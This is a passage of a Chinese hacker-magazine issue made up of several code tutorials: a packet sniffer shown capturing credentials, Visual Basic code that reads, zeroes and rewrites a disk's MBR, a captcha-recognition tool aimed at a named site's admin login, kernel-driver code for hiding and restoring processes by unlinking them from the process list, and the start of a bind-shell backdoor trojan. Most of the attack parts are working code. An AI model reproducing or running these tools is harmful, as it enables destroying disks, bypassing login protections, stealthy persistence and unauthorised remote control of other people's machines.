    InfoList.Items.Add(new ListViewItem(new string[] { "吞吐量", m_Packet.Throughput.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "可靠性", m_Packet.Reliability.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "鉴定", m_Packet.Identification.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "校验和", m_Packet.Checksum[0].ToString("X2") + m_Packet.Checksum[1].ToString("X2") }));
}
```

RawText 就是那个显示机器码的列表，这个列表中的数据尤为重要，我们要嗅探的数据都会在这里显示出来，比如用户名和密码。

图 1 就是我在局域网环境中嗅探的结果，比较清晰明了吧。虽然我们这个简易的嗅探器不能和那些专业的嗅探器相提并论，但是也算给出了一个设计思想，真正的核心代码都在那个 Lib 文件中，源代码也会随文给出，里面的注释很详细，希望对大家有些帮助。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：VB、Ring3、MBR

## Ring3下实现读写MBR

文 / 广东工业大学 胡文亮

最近 MBR Rootkit 流行，新版的 XueTr 0.36 出了一项关于检测并修复 MBR 的功能。很多人觉得这项功能十分神奇，以为这是“底层大牛”的看家绝密，其实读写 MBR 是件非常简单的事情，在 Ring3 下用任何编程语言都可以实现。现在我就以使用者最多的 VB 实现 Ring3 下读写 MBR，并且介绍一下保护 MBR 的方法。

在介绍读写 MBR 之前，先介绍一下 MBR 是何方神圣。MBR，Master Boot Record，即硬盘的主引导记录。一般将 MBR 分为广义和狭义两种：广义的 MBR 包含硬盘的 0 柱面、0 磁头、1 扇区的全部内容（引导程序、分区表及有效标志），也就是上面所说的主引导记录；而狭义的 MBR 仅指引导程序。广义的 MBR 有 512 字节，其中引导程序（Boot loader）占 446 字节，分区表（Partition Table）占 64 字节，有效标志（Magic Number）占 2 字节。系统在启动时，BIOS 中断总是把主引导记录所在扇区（硬盘的 0 头 0 道 1 扇区）的内容（包括代码和数据）装入内存 0000:7C00 起始的区域，然后检验该扇区内容的最后两个字节是不是“AA55”，如果不是，Int19h 将不把控制权交给主引导记录；若是，则下面的主引导记录才能获得控制权（Int19 通过跳转指令交出控制权）。总而言之，MBR 其实是一段汇编程序。以下是我在网上找到的一段关于 MBR 汇编程序的详细注解（原作者是 charme，特此声明）。

二进制形式的主引导记录：

```
0000:06B0 ...
EB 7C ...
0000:06C0 ...
...
0000:07F0 ... 55 AA
```

```
0000:0600 33 C0 8E D0 BC 00 7C ...
0000:0610 ...
0000:0620 ...
...
0000:06A0 ...
```

反汇编结果：

```asm
0000:7C00~0000:7C1A：初始化各个段寄存器、堆栈指针，最后将主引导记录在内存中搬家，腾出其所占内存空间以供装入分区引导记录。

0000:7C00 33C0      XOR AX,AX
0000:7C02 8ED0      MOV SS,AX
0000:7C04 BC007C    MOV SP,7C00
SS:SP=0000:7C00
0000:7C07 FB        STI
0000:7C08 50        PUSH AX
...
0000:7C09 07        POP   ES        ; 装填附加数据段寄存器
0000:7C0A 50        PUSH  AX
0000:7C0B 1F        POP   DS        ; 装填数据段寄存器
0000:7C0C FC        CLD             ; 规定其后的串操作为正向串操作
0000:7C0D BE1B7C    MOV   SI,7C1B   ; 源指针
0000:7C10 BF1B06    MOV   DI,061B   ; 目的指针
0000:7C13 50        PUSH  AX
0000:7C14 57        PUSH  DI
0000:7C15 B9E501    MOV   CX,01E5
0000:7C18 F3        REPZ
0000:7C19 A4        MOVSB
0000:7C1A CB        RETF

; 0000:061B~0000:062B 对分区表进行初步检验
0000:061B BEBE07    MOV   SI,07BE
0000:061E B104      MOV   CL,04
0000:0620 382C      CMP   [SI],CH
0000:0622 7C09      JL    062D
0000:0624 7515      JNZ   063B
0000:0626 83C610    ADD   SI,+10
0000:0629 E2F5      LOOP  0620
0000:062B CD18      INT   18

; 0000:062D~0000:0639 检查剩余分区表项
0000:062D 8B14      MOV   DX,[SI]
0000:062F 8BF5      MOV   BP,SI
0000:0631 83C610    ADD   SI,+10
0000:0634 49        DEC   CX
0000:0635 7416      JZ    064D
0000:0637 382C      CMP   [SI],CH
0000:0639 74F6      JZ    0631

; 0000:063B~0000:064B 执行错误处理
0000:063B BE1007    MOV   SI,0710
0000:063E 4E        DEC   SI
0000:063F AC        LODSB
0000:0640 3C00      CMP   AL,00
0000:0642 74FA      JZ    063E
0000:0644 BB0700    MOV   BX,0007
0000:0647 B40E      MOV   AH,0E
0000:0649 CD10      INT   10
0000:064B EBF2      JMP   063F
```

```asm
; 0000:064D~0000:0662 判断可引导分区类型并转相应处理程序
0000:064D 894625    MOV   [BP+25],AX
0000:0650 96        XCHG  SI,AX
0000:0651 8A4604    MOV   AL,[BP+04]
0000:0654 B406      MOV   AH,06
0000:0656 3C0E      CMP   AL,0E
0000:0658 7411      JZ    066B
0000:065A B40B      MOV   AH,0B
0000:065C 3C0C      CMP   AL,0C
0000:065E 7405      JZ    0665
0000:0660 3AC4      CMP   AL,AH
0000:0662 752B      JNZ   068F

; 0000:0664~0000:06A1 根据分区类型处理
0000:0664 40        INC   AX
0000:0665 C6462506  MOV   BYTE PTR [BP+25],06
0000:0669 7524      JNZ   068F
0000:066B BBAA55    MOV   BX,55AA
0000:066E 50        PUSH  AX
0000:066F B441      MOV   AH,41
0000:0671 CD13      INT   13
0000:0673 58        POP   AX
0000:0674 7216      JB    068C
0000:0676 81FB55AA  CMP   BX,AA55
0000:067A 7510      JNZ   068C
0000:067C F6C101    TEST  CL,01
0000:067F 740B      JZ    068C
0000:0681 8AE0      MOV   AH,AL
0000:0683 885624    MOV   [BP+24],DL
0000:0686 C706A106EB1E MOV WORD PTR [06A1],1EEB
0000:068C 886604    MOV   [BP+04],AH
0000:068F BF0A00    MOV   DI,000A
```

```asm
0000:0692 B80102      MOV AX,0201        ; AH=02 读盘
0000:0695 8BDC        MOV BX,SP          ; SP=7C00 -> BX
0000:0697 33C9        XOR CX,CX          ; CX 清零
0000:0699 83FF05      CMP DI,+05         ; 比较重试次数
0000:069C 7F03        JG 06A1            ; 大于则跳转
0000:069E 8B4E25      MOV CX,[BP+25]     ; 读取分区表项信息
...
0000:06A4 CD13        INT 13             ; 读分区引导记录
0000:06A6 7229        JB 06D1            ; 不成功转错误处理
0000:06A8 BE2D07      MOV SI,072D        ; 错误信息字符串
0000:06AB 813EFE7D55AA CMP WORD PTR [7DFE],AA55
0000:06B1 745A        JZ 070D            ; 合法引导扇区
0000:06B3 83EF05      SUB DI,+05
0000:06B6 7FDA        JG 0692            ; 再读
...
0000:06B8 85F6        TEST SI,SI
0000:06BA 7583        JNZ 063F
0000:06BC BE1A07      MOV SI,071A        ; "Missing operating system"
0000:06BF EB8A        JMP 064B
...
0000:06C1 98          CBW
0000:06C2 91          XCHG CX,AX
0000:06C3 52          PUSH DX
0000:06C4 99          CWD
0000:06C5 034608      ADD AX,[BP+08]
0000:06C8 13560A      ADC DX,[BP+0A]
0000:06CB E81200      CALL 06E0
0000:06CE 5A          POP DX
0000:06CF EBD5        JMP 06A6
0000:06D1 4F          DEC DI
```

```asm
0000:06D2 745A        JZ 06B8            ; 再次读成功则继续
0000:06D4 33C0        XOR AX,AX
0000:06D6 CD13        INT 13             ; 复位磁盘系统
0000:06D8 EBB8        JMP 0692           ; 重试
...
0000:06E0-070C        ; 扩展 INT 13h 读取分区引导记录子程序
0000:06E0 56          PUSH SI
0000:06E1 33F6        XOR SI,SI
0000:06E3 56          PUSH SI
0000:06E4 56          PUSH SI
0000:06E5 52          PUSH DX
0000:06E6 50          PUSH AX
0000:06E7 06          PUSH ES
0000:06E8 53          PUSH BX
0000:06E9 51          PUSH CX
0000:06EA BE1000      MOV SI,0010
0000:06ED 56          PUSH SI
0000:06EE 8BF4        MOV SI,SP
0000:06F0 50          PUSH AX
0000:06F1 52          PUSH DX
0000:06F2 B80042      MOV AX,4200
0000:06F5 8A5624      MOV DL,[BP+24]
0000:06F8 CD13        INT 13             ; 扩展读
0000:06FA 5A          POP DX
0000:06FB 58          POP AX
0000:06FC 8D6410      LEA SP,[SI+10]
0000:06FF 720A        JB 070B
0000:0701 40          INC AX
0000:0702 7501        JNZ 0705
0000:0704 42          INC DX
0000:0705 80C702      ADD BH,02
0000:0708 E2F7        LOOP 0701
0000:070A F8          CLC
0000:070B 5E          POP SI
0000:070C C3          RET
```

```text
0000:070D EB74  JMP 0783
; 070F~0745 是错误信息...
; 070F~0718: “分区表无效”
; 071A~072B: “加载操作系统时出错”
; 072D~0744: “Missing operating system”
...
0000:0783~0000:0789: 控制权移交
0000:0783 8BFC  MOV DI,SP
0000:0785 1F    PUSH DS
0000:0786 57    PUSH DI
...
; 07BE~07FD 为分区表
0000:07B0 ...
0000:07C0 ...
0000:07D0 ...
0000:07E0 ...
0000:07F0 ... 55 AA

*1: 因为物理扇区号总是从 1 排列开始
*2: 由此可见... 在 0xFFFFFFFA 之前有可使系统从该分区引导启动！
```

如果你看不懂（或不想看）前面那些长篇大论也没有关系，我把它贴出来只是一个意思：MBR 是很强的，如果你成功修改了它，就能提前获得比操作系统还大的权限，这就是所谓 MBR Rootkit（或称 Bootkit）的原理。

我以前在拙文《浅谈 64 位编程》中曾经说到，因为有 PatchGuard 的存在，64 位的 Windows 是不能进行 Kernel Hook 的（否则会蓝屏）。这里我补充一点，如果你写了个 Bootkit，在 Win64 系统启动之前获得计算机控制权，你想怎么 Hook 就怎么 Hook，想 Hook 什么就 Hook 什么。

闲扯的部分说完了，说说具体怎么读取和修改 MBR。众所周知在 Windows 系统中，任何设备都被当做文件。既然设备都是文件，自然硬盘也不例外，我们直接用操作文件的函数 CreateFileA 把硬盘当做文件打开，然后用普通的 ReadFile 和 WriteFile 来读写即可。

CreateFileA 把硬盘当做文件打开，然后用普通的 ReadFile 和 WriteFile 来读写文件即可。我写了一个演示程序，模拟 XueTr 检测 MBR Rootkit，以及备份、恢复 MBR 的功能。这个演示程序有五个功能：

- 1. 读取 MBR
- 2. 检测 MBR Rootkit
- 3. 备份 MBR
- 4. 破坏 MBR
- 5. 重置 MBR

注意此程序的危险性很高，切勿在真机上测试，否则出了事故本人不负任何责任。另外本演示程序只支持 NT5 系列操作系统，对 NT6 系列的操作系统无效。要在 Windows Vista 以上的操作系统读写 MBR，需要驱动程序。

## 1. 读取 MBR

```vb
Dim i As Long
Dim hFile As Long
Dim buffer(511) As Byte
Dim dwReadWrite As Long
hFile = CreateFile("\\.\PhysicalDrive0", GENERIC_READ Or GENERIC_WRITE, FILE_SHARE_READ Or FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0)
If (hFile <> INVALID_HANDLE_VALUE) Then
    Call SetFilePointer(hFile, 0, 0, FILE_BEGIN)
    Call ReadFile(hFile, VarPtr(buffer(0)), 512, dwReadWrite, 0)
    Call CloseHandle(hFile)
Else
    MsgBox "CreateFile ERROR!", vbCritical, ""
    Exit Sub
End If
```

第一块硬盘的设备名称是 PhysicalDrive0。

## 2. 检测 MBR Rootkit

```vb
If List1.List(510) <> "55" Or List1.List(511) <> "AA" Then
    MsgBox "检测到 MBR ROOTKIT!", vbCritical, ""
Else
    MsgBox "未检测到 MBR ROOTKIT!", vbInformation, ""
End If
```

实际上是检查最后两个字节是不是 55AA。

## 3. 备份 MBR

```vb
Dim szTxt As String, szFileName As String
Dim i As Long
szFileName = Replace(App.Path & "\mbr.txt", "\\", "\")
For i = 0 To 511
    szTxt = szTxt & List1.List(i) & vbCrLf
Next
szTxt = Left$(szTxt, Len(szTxt) - 2)
Open szFileName For Output As #1
Print #1, szTxt
Close #1
```

把读取的字节保存成 TXT 文件，注意保存成 BIN 文件更好，这里保存成 TXT 文件只是为了方便演示。

## 4. 破坏 MBR

```vb
Dim hFile As Long
Dim buffer(511) As Byte
Dim dwReadWrite As Long
If MsgBox("破坏 MBR 将会使您的计算机进入万劫不复的境地，确定要继续吗？", vbCritical + vbYesNo, "") = vbNo Then Exit Sub
```

```vb
hFile = CreateFile("\\.\PhysicalDrive0", GENERIC_READ Or GENERIC_WRITE, FILE_SHARE_READ Or FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0)
If (hFile <> INVALID_HANDLE_VALUE) Then
    Call SetFilePointer(hFile, 0, 0, FILE_BEGIN)
    Call RtlZeroMemory(VarPtr(buffer(0)), 512)
    Call WriteFile(hFile, VarPtr(buffer(0)), 512, dwReadWrite, 0)
    Call CloseHandle(hFile)
Else
    MsgBox "CreateFile ERROR!", vbCritical, ""
End If
```

```vb
bMbr(i) = CByte(Val("&H" & bsMbr(i)))
Next
Dim hFile As Long
Dim dwReadWrite As Long
hFile = CreateFile("\\.\PhysicalDrive0", GENERIC_READ Or GENERIC_WRITE, FILE_SHARE_READ Or FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0)
If (hFile <> INVALID_HANDLE_VALUE) Then
    Call SetFilePointer(hFile, 0, 0, FILE_BEGIN)
    Call WriteFile(hFile, VarPtr(btMbr(0)), 512, dwReadWrite, 0)
    Call CloseHandle(hFile)
Else
    MsgBox "CreateFile ERROR!", vbCritical, ""
    Exit Sub
End If


```

把 MBR 的内容清零，导致计算机无法启动。提示语中“万劫不复”有夸张的成分，用此成语是说明修复 MBR 十分麻烦，而且很大可能会丢失硬盘资料。MBR 被破坏后虚拟机有如下显示：
## 5. 重置 MBR

```vb
Dim i As Long
Dim szMbr As String
Dim bsMbr() As String
Dim btMbr(511) As Byte
szMbr = GetTxt(Replace(App.Path & "\mbr.txt", "\", "\\"))
bsMbr = Split(szMbr, vbCrLf)
For i = 0 To 511


```

把保存到硬盘的 MBR 原始信息写回去，可以修复上面的破坏。如何证明呢？先破坏 MBR，然后重置 MBR，重启虚拟机，发现可以正常进入系统，仿佛没有对 MBR 做任何操作。

从上面的表述可以看出，修改 MBR 是件很容易的事。有攻必有防，怎么防御 Ring 3 操作 MBR 呢？简单的 SSDT Hook ZwCreateFile 即可。由于 SSDT Hook 都被写烂了，我就简单地说一下方法而不给出代码了：类似保护普通文件，根据返回的句柄判断打开了什么，若发现打开的是物理磁盘，就用 ZwClose 关闭文件句柄并直接返回 STATUS_ACCESS_DENIED 即可。

- （编辑提醒：本文涉及的代码可以到黑防官方网站下载）
- 前置知识：VB
- 关键词：VB、验证码

# VB 验证码识别方法之数据分类匹配
文/图 李勋杰

前面我们介绍了背景干扰色规则数字验证码的识别，因为数字只有 10 个，我们采用了逐个文件对比数据的方式匹配。然而当验证码中还包含英文字母，字符总数就从 10 个增加到 36 个，再采用逐个文件对比的方式效率很低。为了缓解这个问题，本文介绍将验证码数据分类保存，匹配时也只需要与一个类别中的一个或多个文件进行对比，程序效率将大大提高。以良精企业网站管理系统后台的验证码为例（验证码地址为：http://admin.asp99.cn/jiy55/Include/CheckCode/CheckCode.asp，动易 SiteWeaver 后台同样采用此验证码），如图 1 所示。

## 分析验证码

观察该验证码可以发现如下特征：

- 它的大小为 60 像素×15 像素，由 6 个字符组成，英文字母或数字；
- 字符的颜色偏深，背景色相对浅，且为随机纯色；
- 6 个字符的位置是相对固定的，但纵向并不居中显示。

分析颜色 RGB 值，我们知道颜色越深，3 个颜色值越小；颜色越浅，3 个颜色值越大。浅色背景的 RGB 值集中在 120 以上，采用筛选颜色 RGB 值的方法可以将纯色背景去除。

去掉纯色背景后可以把有用像素数据写入文件中，但这里我们先对其进行分类操作。分类的依据是字符实际所占的长和宽，也就是得到字符本身所占最小矩形的大小，示例如图 2 所示，我们可以看到“黑”字所占的最小矩形。

识别时首先计算字符所占的长和宽，然后在对应的文件夹下进行匹配，这样工作量就变得很小了。因为是精确匹配，我们判断匹配成功的依据是该矩形内所有点 100% 匹配成功。
图 1 良精企业网站管理系统后台验证码
图 2 “黑”字所占的最小矩形

## 编码实现

程序窗体基本布局如图 3 所示。
图 3 窗体的基本布局

添加 4 个按钮如表 1 所示。

| Name | Caption |
|---|---|
| CmdDown | 下载图片 |
| CmdNoise | 转黑白色 |
| CmdWriteData | 写入数据文件 |
| CmdResult | 识别验证码 |

表 1 按钮名称及说明

2 个 PictureBox 从上至下分别是：Picture1、Picture2。将它们的 AutoRedraw 属性设置为 True，同时将 ScaleMode 属性设置为 3-Pixel，以便使用像素作为长度单位量度。此外，添加一个 Microsoft Internet Transfer 控件，用于下载验证码，Name 默认为 Inet1。添加一个用于显示识别结果的 Label，Name 设置为 lblResult。一个用于输入字符的 TextBox，Name 设置为 TxtChar。

主窗体中的代码如下所示：

```vb
Option Explicit
Private Sub Form_Load()
    '窗体载入时将所含 PictureBox 统一到验证码的大小
    Picture1.AutoRedraw = True
    Picture2.AutoRedraw = True
    Picture2.Height = Picture1.Height
    Picture2.Width = Picture1.Width
End Sub

Private Sub CmdDown_Click()
    '下载按钮时变为不可用
    CmdDown.Enabled = False
    '声明用于保存图片二进制数据的数组
    Dim picBytes() As Byte
    ...
    Inet1.OpenURL("http://.../CheckCode.asp", icByteArray)
    While Inet1.StillExecuting
        DoEvents
    Wend
    Open App.Path & "\Test.bmp" For Binary As #1
    Put #1, , picBytes
    Close #1
    Picture1.Picture = LoadPicture(App.Path & "\Test.bmp")
    CmdDown.Enabled = True
End Sub

Private Sub CmdNoise_Click()
    Picture2.Cls
    Dim X As Integer
    Dim Y As Integer
    Dim Ret
    '遍历整张图片并将其转为黑白
    For Y = 0 To Picture1.ScaleHeight - 1
        For X = 0 To Picture1.ScaleWidth - 1
            Ret = ColorRGB(Picture1.Point(X, Y))
            If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                Picture2.PSet (X, Y), vbBlack
            End If
        Next X
    Next Y
End Sub

Private Sub CmdWriteData_Click()
    Dim X As Integer
    Dim Y As Integer
    Dim Ret
    Dim SmallX As Integer
    Dim BigX As Integer
    Dim SmallY As Integer
    Dim BigY As Integer
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")
    Dim Index As Integer

    For Index = 0 To 50 Step 10
        SmallX = Index + 10
        SmallY = 14
        BigX = Index
        BigY = 0

        For Y = 0 To 14
            For X = Index To Index + 9
                Ret = ColorRGB(Picture1.Point(X, Y))
                If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                    If X < SmallX Then SmallX = X
                    If X > BigX Then BigX = X
                    If Y < SmallY Then SmallY = Y
                    If Y > BigY Then BigY = Y
                End If
            Next X
        Next Y

        If Not FSO.FolderExists(App.Path & "\Data\" & BigX - SmallX & "x" & BigY - SmallY) Then
            FSO.CreateFolder (App.Path & "\Data\" & BigX - SmallX & "x" & BigY - SmallY)
        End If

        '将字符数据写入文件
        Open App.Path & "\Data\" & BigX - SmallX & "x" & BigY - SmallY & "\" & TxtChar.Text & ".ini" For Output As #1
        Print #1, "[CharData]"
        For Y = SmallY To BigY
            For X = SmallX To BigX
                Ret = ColorRGB(Picture1.Point(X, Y))
                If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                    Print #1, X - SmallX & ":" & Y - SmallY & "=1"
                End If
            Next X
        Next Y
        Close #1
    Next Index

    Set FSO = Nothing
End Sub

Private Sub CmdResult_Click()
    lblResult.Caption = "识别结果：" & GetOneChar(0, 9) & ...
End Sub


```

上述代码中，写入字符数据时用字符所占矩形建立一个单独的坐标系统，而不是以整个验证码作为坐标系统，这一点请读者朋友注意。写入的字符数据根据分类保存到不同的文件夹中，如图 4 所示。
图 4 数据分类保存到不同文件夹中

函数 ColorRGB 用于将 16 进制颜色转换为 RGB 值，并返回到一个数组中，新建一个标准模块 ModuleGetRGB，写入如下代码：

```vb
Public Function ColorRGB(Color As Long) As Byte()
    Const ByN As Integer = 256
    Const ByN2 As Long = 65536
    Dim A(2) As Byte
    A(0) = (Color Mod ByN)
    A(1) = ((Color Mod ByN2) \ ByN)
    A(2) = (Color \ ByN2)
    ColorRGB = A
End Function
```

识别验证码的函数为 GetOneChar，它有两个参数，起始 X 坐标和结束 X 坐标。新建一个标准模块 ModuleGetOneChar，写入如下代码：

```vb
Option Explicit

Public Function GetOneChar(ByVal Left, ByVal Right) As String
    Dim X As Integer
    Dim Y As Integer
    Dim Ret
    Dim MatchCount As Integer

    Dim SmallX As Integer
    Dim BigX As Integer
    Dim SmallY As Integer
    Dim BigY As Integer

    '声明并创建 FSO 对象
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")

    '初始化 SmallX、SmallY、BigX、BigY
    SmallX = Right
    SmallY = 14
    BigX = Left
    BigY = 0

    '获取字符所在的 X、Y 坐标的最小值和最大值
    For Y = 0 To 14
        For X = Left To Right
            Ret = ColorRGB(MainForm.Picture1.Point(X, Y))
            If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                If X < SmallX Then SmallX = X
                ElseIf X > BigX Then BigX = X
                If Y < SmallY Then SmallY = Y
                ElseIf Y > BigY Then BigY = Y
            End If
        Next X
    Next Y

    '声明文件夹对象 mFolder，并返回要进行数据匹配的文件夹
    Dim mFolder As Object
    Dim mFile As Object
    Set mFolder = FSO.GetFolder(App.Path & "\Data\" & BigX - SmallX & "x" & BigY - SmallY)

    For Each mFile In mFolder.Files
        For Y = SmallY To BigY
            For X = SmallX To BigX
                Ret = ColorRGB(MainForm.Picture1.Point(X, Y))
                If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                    If GetValueFromIni(mFile, "CharData", X - SmallX & ":" & Y - SmallY) = "1" Then MatchCount = MatchCount + 1
                Else
                    If GetValueFromIni(mFile, "CharData", X - SmallX & ":" & Y - SmallY) = "" Then MatchCount = MatchCount + 1
                End If
            Next X
        Next Y

        If MatchCount = (BigX - SmallX + 1) * (BigY - SmallY + 1) Then
            GetOneChar = Replace(mFile.Name, ".ini", "")
            Set FSO = Nothing
            Exit For
        End If

        MatchCount = 0
    Next mFile
End Function
```

当文件夹中一个文件的数据 100% 匹配时，程序跳出循环。每次进行匹配之前，请将 MatchCount 变量清 0。用于 INI 文件操作的函数 GetValueFromIni 写入标准模块 INIFileOperateModule 中。

```vb
'读取INI值
Public Declare Function GetPrivateProfileString Lib "kernel32" Alias "GetPrivateProfileStringA" (ByVal lpApplicationName As String, ByVal lpKeyName As Any, ByVal lpDefault As String, ByVal lpReturnedString As String, ByVal nSize As Long, ByVal lpFileName As String) As Long

'自定义函数，读取Ini后返回
Public Function GetValueFromIni(ByVal FileName As String, ByVal AppName As String, ByVal KeyName As String) As String
    Dim Buff As String
    Buff = Space(100)
    GetPrivateProfileString AppName, KeyName, vbNullString, Buff, 100, FileName
    GetValueFromIni = Left(Buff, InStr(Buff, Chr(0)) - 1)
End Function


```

运行上面编写的程序，结果如图5所示。

首先找到文字所在的矩形区域，将矩形区域中有用像素的坐标按一定条件筛选并分类，写入到文件中用于匹配；匹配时，首先根据设定的条件进行分类，然后仅在该类别下进行数据匹配即可。
图5 程序运行结果

由于字符形状是规则的，纯色背景也不具备干扰作用，本例程序识别率为100%。需要进一步指出的是：对于字符有纵横位移的验证码，只要两个字符之间没有重合的部分，该方法识别率同样是100%，因为我们可以精确定位文字所在的矩形区域。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

## 总结

识别字符数目较多的形状规则验证码，可采用以下基本思路。

前置知识：驱动  
关键词：进程链表、进程插入

# 恢复进程链表
文/图 sigle

现在，使用断开进程链表的方法来对进程进行隐藏已经被许多人使用。甚至有些驱动编程的书籍也把这个部分作为内核编程的一个简单例子来讲解。对于想干点破坏性活动而言，断链完成后就“万事大吉”了。但对于一个隐藏工具而言，既要实现进程的隐藏，还要能在必要的时候把进程恢复到活动进程链表。不仅要把该进程恢复到链表中，关键还要把进程恢复到链表中的正确位置。

## 如何将一个进程插入链表

将一个进程插入链表和将一个进程从进程链表中删除是一个逆过程。虽然驱动中链表的组织形式和用户态下的链表有点差别，但本质上还是同一回事。可以用下面这个模型来表示，如图1所示。
图1 插入进程示意图

代码如下：

```c
// 被隐藏的进程
PLIST_ENTRY plist_proc, plist_proc2;
// 被隐藏进程的后一个进程
plist_proc  = (LIST_ENTRY *)((DWORD)eproc + FLINKOFFSET);
plist_proc2 = (LIST_ENTRY *)((DWORD)Beproc + FLINKOFFSET);
plist_proc->Flink = plist_proc2;
plist_proc->Blink = plist_proc2->Blink;
plist_proc2->Blink->Flink = plist_proc;
plist_proc2->Blink = plist_proc;
```

显然这里的 eproc 是被隐藏进程的 EPROCESS 结构地址，在隐藏时已经将其保存。那么 Beproc 又是哪个进程的地址呢？虽然说只要 Beproc 是活动进程链表中某个进程的 EPROCESS 结构地址，那么该次插入过程就能成功，但是想要恢复正确的状态，Beproc 只能是“特定”的那个。所以查找进程插入的正确位置才是本文要讲的重点。

## 查找插入点

查找进程插入的位置，也就是查找被隐藏进程的前后进程节点是什么。如果在隐藏的时候把前后进程节点的 EPROCESS 结构地址保存下来，作为恢复的依据是否可以呢？显然这是行不通的。目标进程的前后节点可能会因为某种原因而发生改变，用户关闭某一进程或者自己的隐藏工具还对其他进程进行了隐藏操作等，都会引起目标进程的前后节点发生改变。所以我们还得寻找其他的办法。

我们再看 EPROCESS 结构，在 +0x070 处有一个成员变量 CreateTime，它是一个 _LARGE_INTEGER 型的变量。它是创建进程的时间。取出系统活动进程链表中每个进程的 CreateTime，代码如下：

```c
OldEproc = CurrentProc = (DWORD)GetTheFirstProcess();
do {
    //取出进程建立时间
    time = *(LARGE_INTEGER *)(CurrentProc + TIMEOFFSET);
    DbgPrint("%s:", (PCHAR)CurrentProc + PNAME_OFFSET);
    DbgPrint("HighPart=%u,LowPart=%u", time.HighPart, time.LowPart);

    //遍历下一个进程
    plist_active_procs = (LIST_ENTRY *)((DWORD)CurrentProc + FLINKOFFSET);
    CurrentProc = (DWORD)plist_active_procs->Flink;
    CurrentProc = (DWORD)CurrentProc - FLINKOFFSET;
} while (OldEproc != CurrentProc);
```

其中刚进入循环时的 CurrentProc 是指向进程 System，它是进程链表的第一个节点。以下代码可以得到 System 的 EPROCESS 结构。

```c
FirstEproc = CurrentProc = (DWORD)PsGetCurrentProcess();
do {
    //如果当前进程是System，则返回它的EPROCESS结构地址
    if (!strcmp("System", (PCHAR)CurrentProc + PNAMEOFFSET))
        return CurrentProc;

    //指向下一个进程
    plist_active_procs = (LIST_ENTRY *)((DWORD)CurrentProc + FLINKOFFSET);
    CurrentProc = (DWORD)plist_active_procs->Flink;
    CurrentProc = (DWORD)CurrentProc - FLINKOFFSET;
} while (FirstEproc != CurrentProc);


```

所以我们得到如图2所示的结果。
这是进程链表中前几个进程的建立时间。从这里我们得到一个关键信息，那就是从第一个进程 System 开始，每个进程的建立时间与前一个进程的建立时间相比都是递增的。

原来系统在进程建立时调用了 InsertTailList，它的原型是：

```c
InsertTailList(&PsActiveProcessHead, &Process->ActiveProcessLinks)
```

而在进程结束时系统调用的是函数 RemoveEntryList，它的原型是：

```c
RemoveEntryList(&Process->ActiveProcessLinks)
```

由此可见系统在建立一个新的进程时，是将该进程放入了活动进程链表的尾部。所以先建立的进程总是在进程链表的前面，而后建立的进程在进程链表的后面。所以当我们要把一个隐藏进程恢复的时候，只需要按照进程时间来搜索并取得插入的位置。代码如下：

```c
FirstEproc = CurrentProc = (DWORD)GetTheFirstProcess();
do {
    //分别比较高32位和低32位
    timeTemp = *(LARGE_INTEGER *)(CurrentProc + TIMEOFFSET);
    if (((ULONG)time.HighPart < (ULONG)timeTemp.HighPart)
      || ((ULONG)time.HighPart == (ULONG)timeTemp.HighPart
      && (ULONG)time.LowPart < (ULONG)timeTemp.LowPart)) {
        //记录满足条件的进程
        Beproc = CurrentProc;
        break;
    }

    //遍历下一个进程
    plist_active_procs = (LIST_ENTRY *)((DWORD)CurrentProc + FLINKOFFSET);
    CurrentProc = (DWORD)plist_active_procs->Flink;
    CurrentProc = (DWORD)CurrentProc - FLINKOFFSET;
} while (FirstEproc != CurrentProc);


```

找到了插入的位置，然后就可以根据前面讲的插入链表的方法将隐藏进程恢复到活动进程链表中。如图3、图4和图5所示是隐藏前、隐藏后、恢复后进程链表的顺序。
图5 进程 IPMSG.exe 恢复后

这只是对于一个进程的隐藏与恢复。如果要隐藏和恢复多个进程，可以在驱动的内部维护一个用来存储隐藏进程的链表，假设为 my_list。当有进程被隐藏时就把被隐藏的进程加入到 my_list 中。当要恢复进程时，先从这个 my_list 中得到将要恢复的进程的一些信息，然后插入到系统活动进程链表中，最后再把该进程从 my_list 中删除，并释放内存。

本文只是在 Windows XP SP3 下测试成功。如果是 Windows 2003、Windows Vista 等系统，由于 EPROCESS 结构的不同，这种方法还得改进。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：匿名管道、木马编写
# 匿名管道实现远程木马编写

文/图 后恋

一个后门木马程序最基本的是拥有命令行执行权限，而如果对一台目标主机拥有了命令行执行权限，那么就可以对目标主机为所欲为了。本文就是利用匿名管道来实现服务端 Shell 的获取，以拥有控制主机的全部权限。首先是套接字的编程，实现远程客户端与服务端的通信。我们用 VC6.0 编写的客户端基于 MFC 界面，服务端基于 WIN32 控制台程序的远程控制软件。

```c
printf("now listening on port %d\n",port);
int len = sizeof(serveraddr);
client = accept(server,(SOCKADDR *)&serveraddr,&len);//等待连接

if(client == INVALID_SOCKET)//容错处理
{
    printf("now accepting error\n");
    return -1;
}
```

## 服务端 door 的实现

- 1. 建立控制台程序无须赘述，然后是建立新的头文件将变量定义放在头文件里，dct.h 内容如下：

```c
WSADATA wsadata;
SOCKET server,client;
SOCKADDR_IN serveraddr;
int port = 1234;
int cmd_shell(SOCKET target);
```

- 2. 套接字的编程。服务端进行如下程序：初始化库、创建套接字、绑定（bind）、监听（listen）、等待连接（accept）。套接字编程如下：

```c
WORD word = MAKEWORD(2,2);//初始化库
WSAStartup(word,&wsadata);
server = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);//创建套接字
serveraddr.sin_family = AF_INET;//填充
serveraddr.sin_port = htons(port);
